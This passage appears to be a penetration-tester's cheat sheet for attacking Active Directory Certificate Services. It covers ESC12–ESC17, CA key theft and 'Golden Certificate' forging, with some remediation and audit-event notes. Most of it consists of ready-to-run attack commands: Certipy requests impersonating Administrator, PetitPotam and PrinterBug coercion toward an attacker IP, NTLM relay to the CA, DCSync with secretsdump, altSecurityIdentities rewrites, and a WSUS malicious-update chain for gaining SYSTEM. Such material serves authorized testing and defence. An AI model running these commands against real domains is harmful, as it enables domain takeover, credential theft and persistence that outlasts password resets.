# Coerce authentication (PetitPotam/PrinterBug/Coercer, same as ESC8)
python3 PetitPotam.py -u '' -p '' <attacker_ip> <dc_ip>

# Auth with the relayed cert as usual
certipy auth -pfx <relayed>.pfx -dc-ip <dc_ip>
```

### ESC12 — CA Private Key on YubiHSM

**Conditions:** the CA stores its private key on a YubiHSM2 module; the HSM auth key/password is stored in **cleartext** in the registry (`HKLM\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword`), readable by anyone with shell access to the CA server.

```bash
# On the CA server — read the HSM auth key from the registry
reg query "HKLM\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword"

# Use the recovered key with YubiHSM tooling to reach the CA private key,
# then forge certs exactly as in ESC5
certipy forge -ca-pfx '<CA_Name>.pfx' -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500'
```

### ESC13 — Issuance Policy Linked to a Privileged Group

**Conditions:** an enrollable template has an Issuance Policy extension whose OID is linked (`msDS-OIDToGroupLink`) to a universal AD group; enrolling grants membership-equivalent access to that group.

```bash
# -oids dumps the policy OIDs and their group links — this is the enumeration step
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -oids -stdout
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -vulnerable -stdout

# Request a cert from the linked template — no SAN manipulation needed, you enroll as yourself
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template '<Vulnerable_Template>'

# Authenticate — the TGT comes back carrying the linked group's SID
certipy auth -pfx <user>.pfx -dc-ip <dc_ip>
```

> [!note] ESC13 is the quiet one: no UPN swap, no template rewrite, no relay. You legitimately enroll as yourself and the KDC hands you a ticket with extra group membership. Nothing in the certificate looks anomalous, which also makes it hard to spot in logs.

### ESC14 — Weak Explicit Certificate Mapping (altSecurityIdentities)

**Conditions:** a privileged account carries a **weak** `altSecurityIdentities` value (see the [[#Explicit Mappings via altSecurityIdentities]] table), *or* you have write access to that attribute on a target account.

> [!warning] **Certipy neither detects nor exploits ESC14.** `certipy find` will never report it, and `certipy account` has no flag that touches `altSecurityIdentities` — its writable attributes are `-dns`, `-upn`, `-sam`, `-spns`, `-pass` and `-group` only. Commands claiming otherwise are wrong. Certipy's role here is the final `auth` step; everything before it is plain LDAP work.

```bash
# --- Find weak mappings (read-only, safe)
ldapsearch -H ldap://<dc_ip> -x -D "<user>@<domain>" -w '<pass>' \
  -b "DC=domain,DC=com" "(altSecurityIdentities=*)" sAMAccountName altSecurityIdentities
# Triage what comes back: X509:<S>...  or  X509:<I>...<S>...  or  X509:<RFC822>...  = weak
#                          X509:<SR>, <SKI>, <SHA1-PUKEY>                          = strong

# --- Path A: a weak mapping already exists on a privileged account.
# Obtain any certificate matching it (ESC1 gives you arbitrary Subject; a stolen CA key gives
# you anything at all), then present it:
certipy auth -pfx matching.pfx -dc-ip <dc_ip> -username administrator -domain <domain>

# --- Path B: you can WRITE altSecurityIdentities on the target. Map your own cert to them.
# Read your cert's issuer + serial:
openssl pkcs12 -in mine.pfx -nodes -passin pass: | openssl x509 -noout -issuer -serial

bloodyAD --host <dc_ip> -d <domain> -u <user> -p '<pass>' \
  set object <target_user> altSecurityIdentities \
  -v 'X509:<I>DC=com,DC=domain,CN=CORP-CA<SR>1200000012ab'

# PowerShell equivalent, from a domain-joined host
Set-ADUser <target_user> -Add @{'altSecurityIdentities'='X509:<I>DC=com,DC=domain,CN=CORP-CA<SR>1200000012ab'}

certipy auth -pfx mine.pfx -dc-ip <dc_ip> -username <target_user> -domain <domain>
```

> [!tip] **Serial-number byte order bites here.** `openssl x509 -serial` prints the serial big-endian; the `<SR>` value in `altSecurityIdentities` is expected **reversed** (little-endian, as `certutil` displays it). If a mapping you wrote yourself doesn't authenticate, reverse the byte pairs before assuming the technique failed.

### ESC15 — EKUwu / Application Policy Injection (CVE-2024-49019)

**Conditions:** enrollable Schema V1 template (e.g. the default `WebServer` template) allows the requester to supply a Subject and a custom Application Policy OID; **unpatched CA** (patch released November 2024) doesn't validate that the Application Policy matches the template's intended EKU.

```bash
# Inject Client Authentication as an Application Policy on a V1 template
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template WebServer \
  -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500' \
  -application-policies 'Client Authentication'

# Or inject Certificate Request Agent to chain into an ESC3-style attack
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template WebServer \
  -application-policies '1.3.6.1.4.1.311.20.2.1'

certipy auth -pfx administrator.pfx -dc-ip <dc_ip>
```

> [!warning]
> Patched November 2024 — check the CA's patch level before assuming this works. `-application-policies` accepts either a friendly name or a raw OID, and takes multiple values.

### ESC16 — Security Extension (SID) Disabled CA-Wide

**Conditions:** the CA has `szOID_NTDS_CA_SECURITY_EXT` in its `policy\DisableExtensionList`, so **no** certificate it issues carries the requester's SID — identical impact to ESC9, but applies to every template on the CA instead of just one. Same mapping prerequisites as ESC9.

```bash
# Certipy find flags ESC16 automatically (CA-level, so do NOT use -dc-only)
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -vulnerable -stdout

# --- Scenario A: UPN swap. Needs binding enforcement 0 or 1.
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -user victim read
certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -upn 'administrator' -user victim update
certipy shadow  -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -account victim auto
export KRB5CCNAME=victim.ccache

# ANY client-auth template works — the CA strips the SID regardless of template settings
certipy req -k -dc-ip <dc_ip> -target <CA_host> -ca '<CA_Name>' -template User

certipy account -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -upn 'victim@<domain>' -user victim update
certipy auth -pfx administrator.pfx -dc-ip <dc_ip> -username administrator -domain <domain>

# --- Scenario B: ESC16 + ESC6 — survives Full Enforcement, no victim account needed.
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template User \
  -upn Administrator@<domain> -sid 'S-1-5-21-<domain>-500'
certipy auth -pfx administrator.pfx -dc-ip <dc_ip>
```

```bat
:: Confirm / remediate from the CA server
certutil -getreg policy\DisableExtensionList
certutil -setreg policy\DisableExtensionList -1.3.6.1.4.1.311.25.2
net stop certsvc && net start certsvc
```

### ESC17 — Enrollee-Supplied Subject for **Server** Authentication

**Conditions:** template has `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` **plus** a Server Authentication EKU (`1.3.6.1.5.5.7.3.1`, or Any Purpose, or no EKU), low-priv enrollment, no manager approval or authorized signatures. Identified by Digitrace (Alexander Neff, Phil Knüfer).

ESC17 is ESC1's twin on the server side: instead of impersonating a *user* to a KDC, you mint a trusted TLS certificate for an arbitrary *hostname* and impersonate a **service**. Unlike ESC1, the "supply in request" setting here is often deliberate — the template exists to issue internal web-server certs — which is why it survives reviews that would have caught ESC1.

```bash
# 1. Find it — certipy flags: "Enrollee supplies subject and template allows server authentication."
certipy find -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> -vulnerable -stdout

# 2. Mint a TLS cert for the service you want to impersonate. -dns, not -upn.
certipy req -u <user>@<domain> -p '<pass>' -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -template '<VulnTemplate>' \
  -dns 'wsus.corp.local'
# [*] Got certificate with DNS Host Name 'wsus.corp.local'  →  wsus.pfx
#     ("Certificate has no object SID" is expected and harmless — this is not a client-auth cert.)

# 3. Impersonate. The published chain is WSUS:
#    a) take over the name (ADIDNS dynamic update, or ARP/LLMNR on-path)
#    b) serve a malicious update over HTTPS — the cert is trusted, so clients accept it → SYSTEM
```

> [!important] The certificate is only half the attack. ESC17's value comes from **which** name you can impersonate and whether you can make clients resolve to you. The documented chain pairs it with **DNS zone dynamic update** rights (a default in many domains) against **WSUS** — HTTPS-enabled WSUS was the one hardening step that made update injection "safe", and a trusted server cert removes it. Either relay the incoming WSUS client auth to LDAP, or serve a malicious update for direct SYSTEM execution. Any other TLS service whose clients trust the enterprise CA is a candidate — internal APIs, management consoles, software-distribution endpoints.

### Post-DA — CA Key Theft & Certificate Forging

Once you have Domain Admin (via any ESC above), the CA itself can be turned into a persistence/forging mechanism.

```bash
# Certipy — list all issued certs (useful for finding other users' certs)
certipy ca -u Administrator@<domain> -hashes :<hash> -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -list-templates

# Dump CA private key (allows forging any cert offline)
certipy ca -u Administrator@<domain> -hashes :<hash> -dc-ip <dc_ip> \
  -target <CA_host> -ca '<CA_Name>' -backup
# Output: <CA_Name>.pfx (CA cert + private key)

# Forge cert using stolen CA key — the "Golden Certificate"
certipy forge -ca-pfx '<CA_Name>.pfx' -upn Administrator@<domain> \
  -sid 'S-1-5-21-<domain>-500' -subject 'CN=Administrator' \
  -validity-period 3650
certipy auth -pfx Administrator_forged.pfx -dc-ip <dc_ip>
```

> [!important] **This is the strongest persistence AD CS offers, and the hardest to evict.** A forged certificate is minted offline — the CA never sees the request, so nothing appears in its issued-certificates database or the 4886/4887 audit trail. It keeps working across password resets and even a `krbtgt` double-reset, for as long as `-validity-period` says. The only real remediation is revoking and reissuing the CA certificate itself, so flag it in the report as a **CA compromise**, not a user compromise, and make the distinction explicit — clients routinely under-scope the cleanup.

---

## Dangerous Settings

| Setting | ESC | Risk |
|---|---|---|
| Template allows SAN + Client Auth EKU + low-priv enroll | ESC1 | Cert as any user → DA |
| Any Purpose / No EKU on enrollable template | ESC2 | Same as ESC1 |
| Enrollment Agent template accessible | ESC3 | Enroll on behalf of DA |
| Write perms on template object | ESC4 | Modify template → ESC1 |
| Weak ACL on CA object / NTAuthCertificates / CA server | ESC5 | Steal CA key → forge any cert |
| `EDITF_ATTRIBUTESUBJECTALTNAME2` on CA | ESC6 | SAN on any cert request; **unlocks ESC9/16 at Full Enforcement** |
| Manage CA / Manage Certs perms | ESC7 | Self-grant officer → issue arbitrary certs |
| Web Enrollment with NTLM and no EPA + coercible auth | ESC8 | Relay DC auth → DC cert → DCSync |
| `CT_FLAG_NO_SECURITY_EXTENSION` on a client-auth template | ESC9 | No SID in cert → UPN-swap impersonation |
| Schannel `CertificateMappingMethods` includes `0x4` | ESC10 | UPN mapping over LDAPS → impersonate machine accounts |
| ICPR RPC interface without enforced encryption | ESC11 | Relay NTLM over RPC → cert (works without Web Enrollment) |
| CA private key on YubiHSM with cleartext registry auth key | ESC12 | Local CA access → extract key → forge any cert |
| Issuance Policy OID linked to a universal group | ESC13 | Enroll → implied membership in linked group |
| Weak `altSecurityIdentities` value on a privileged account | ESC14 | Any matching cert authenticates as that account |
| Unpatched CA + V1 template allowing custom Subject | ESC15 (CVE-2024-49019) | Inject Application Policy → auth as any user |
| SID extension in the CA's `DisableExtensionList` | ESC16 | Every issued cert loses SID binding → ESC9 impact, CA-wide |
| Enrollee-supplied subject + Server Auth EKU | ESC17 | Trusted TLS cert for any hostname → service impersonation (WSUS → SYSTEM) |
| `StrongCertificateBindingEnforcement` = 0 or 1 | — | Enables the whole ESC9/ESC16 fallback class |

---

## Detection & Artefacts

Worth knowing on both sides of the engagement — what the defender should have, and what your activity leaves behind.

| Event ID | Meaning | Why it matters |
|---|---|---|
| 4886 | Certificate Services **received** a request | Requester vs. the SAN in the request — a mismatch is ESC1/ESC6/ESC17 |
| 4887 | Request **approved and certificate issued** | The issuance itself; pairs with 4886 by request ID |
| 4888 | Request **denied** | The expected ESC7 step-3 failure — a 4888 followed by a 4887 for the same ID is the ESC7 signature |
| 4889 | Request set to **pending** | Manager approval in play |
| 4899 / 4900 | Certificate **template** / template **security** updated | ESC4's rewrite-and-restore shows up here, twice |
| 4768 | Kerberos TGT requested | Carries certificate information for PKINIT — ties a cert back to a logon |

> [!warning] **4886/4887 are off by default.** They require *both* "Issue and manage certificate requests" on the CA's Auditing tab *and* the Certificate Services audit subcategory via `auditpol`. Most environments have neither, so assume your enrollment is unlogged — and say so in the report, because "we saw nothing" is not the same as "nothing happened". Certificates **forged offline** from a stolen CA key (ESC5/ESC12/Post-DA) produce no CA-side event at all, at any audit level.

---

## Quick Reference

| Goal | Command |
|---|---|
| Fix the binary name (Kali) | `alias certipy=certipy-ad` |
| Find vulns | `certipy find -u user@domain -p pass -dc-ip dc -vulnerable -stdout` |
| Find ESC13 policy OIDs | `certipy find -u user@domain -p pass -dc-ip dc -oids -stdout` |
| Offline audit from a .reg | `certipy parse templates.reg -format reg -vulnerable -stdout` |
| ESC1/2/6 exploit | `certipy req -u user@domain -p pass -dc-ip dc -target CA -ca CA -template Tmpl -upn Administrator@domain -sid S-1-5-21-...-500` |
| Authenticate with cert | `certipy auth -pfx Administrator.pfx -dc-ip dc` |
| Auth when PKINIT is unavailable | `certipy auth -pfx cert.pfx -dc-ip dc -ldap-shell` |
| ESC4 backup / rewrite / restore | `certipy template ... -save-configuration t.json` → `-write-default-configuration -force` → `-write-configuration t.json -force` |
| ESC7 self-grant officer | `certipy ca -u user@domain -p pass -target CA -ca CA -add-officer user` |
| ESC7 issue denied request | `certipy ca ... -ca CA -issue-request 1` then `certipy req ... -retrieve 1` |
| ESC8 relay setup (certipy) | `certipy relay -target http://CA -template DomainController` |
| ESC8 relay setup (impacket) | `impacket-ntlmrelayx -t http://CA/certsrv/certfnsh.asp --adcs --template DomainController` |
| ESC11 RPC relay | `certipy relay -target rpc://CA_host -ca CA_Name -template DomainController` |
| Coerce auth (PetitPotam) | `python3 PetitPotam.py attacker_ip dc_ip` |
| Coerce auth (PrinterBug) | `python3 printerbug.py domain/user:pass@dc_ip attacker_ip` |
| ESC9/10/16 UPN swap | `certipy account -u user@domain -p pass -dc-ip dc -upn administrator -user victim update` |
| ESC9/10/16 become victim | `certipy shadow -u user@domain -p pass -dc-ip dc -account victim auto` |
| ESC14 find weak mappings | `ldapsearch ... "(altSecurityIdentities=*)" sAMAccountName altSecurityIdentities` |
| ESC15 injected policy | `certipy req ... -application-policies 'Client Authentication'` |
| ESC17 server-auth cert | `certipy req ... -template VulnTemplate -dns wsus.corp.local` |
| Backup CA key | `certipy ca -u Admin@domain -hashes :hash -dc-ip dc -target CA -ca CA -backup` |
| Forge cert (Golden Certificate) | `certipy forge -ca-pfx CA.pfx -upn Administrator@domain -sid S-1-5-21-...-500` |
| DCSync post-ESC8 | `impacket-secretsdump -hashes :DC_hash 'domain/DC$'@dc_ip` |
| Check DC binding mode | `reg query "HKLM\SYSTEM\CurrentControlSet\Services\Kdc" /v StrongCertificateBindingEnforcement` |
| Check Schannel mapping | `reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL" /v CertificateMappingMethods` |

---

*Created: 2026-07-27*
*Updated: 2026-09-22*
*Model: claude-opus-5*
